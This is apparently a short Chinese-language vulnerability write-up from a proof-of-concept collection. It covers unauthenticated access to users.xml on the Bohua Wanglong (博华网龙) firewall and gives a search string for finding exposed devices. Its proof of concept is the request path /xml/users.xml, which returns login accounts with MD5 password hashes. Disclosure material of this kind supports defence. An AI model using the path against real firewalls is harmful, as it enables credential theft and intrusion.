 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](./images/202202162248506.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](./images/202202162248359.png)